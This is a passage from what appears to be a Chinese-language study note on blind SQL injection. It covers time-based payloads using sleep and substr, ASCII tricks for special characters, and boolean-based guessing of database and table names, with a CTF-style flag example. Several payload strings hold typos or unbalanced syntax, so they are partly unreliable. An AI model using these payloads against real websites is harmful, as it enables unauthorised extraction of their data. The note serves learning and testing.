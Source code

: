 3.猜解表名

```
' and if(substr((select table_name from information_schema.tables where table_schema=database(),1,1),sleep(5),1)
```



有可能数据是某些字符，这时就不好进行操作。例如：

> 数据库用户名为`test#`

```
' and if(substr((select name from user limit 0,1),5,1)='#',sleep(5),1)%23
```

> 使用上面这种格式的话可能会出现问题。
>
> 所以：

```
' and if(ASCII(substr((select name from user limit 0,1),5,1))=35,sleeep(5),1)%23
```

> 通过转换为`ASCII`来绕过编码的问题



#### boolean注入





##### 基本类型

当判断一个网站是否有注入点时使用'和1' and 1='2发现都是网页缺了一部分，而当1' and 1='1时网页完整的，这种的话可以考虑这种是否是boolean注入，也就是说网页完整的话就是True不完整的话就是False，这样的话：

1. 先判断数据库的长度：1' and length(database())>=1 --+                (ps.--表示注释后面加号表示空格，当这里的网页返回不完整时，表示为False，这样的话就调试后面的场电影大小)
2. 当猜解出来了长度后就开始用substr猜解：1' and substr(database(),1,1)='t' --+==(ps.substr作用为猜解字符，后面的1,1为猜解从这个str的第一个字符开始，截取1个字符)==，这句substr作用就为猜解数据库名的第一个str字符，同样的第二个字符就是substr(database(),2,1)
3. 同样的把substr(database(),1,1)中的database()换成其他的select语句就可以查询其他的数据了,比如:`1' and substr((select table_name frominformation_schema.tables where table_schema='当前数据库' limit 0,1),1,1)='a' --+`limit 和substr 取第一条数据的第一个str字符
4. 1' and substr((select flag from sql_error_inject.flag limit 0,1),1,1)>=14 --+ 





##### bool注入，通过报错

> 此处的意思为，数据库无论是否查询到数据都不会回显到前端，只有sql报错才会回显到前端。
>
> (ps.不是具体的sql报错，不能用extractvalue注入)。





如果注入后，不管查询的结果是否正确都不回显的话。只有当sql语句报错的时候才会回显
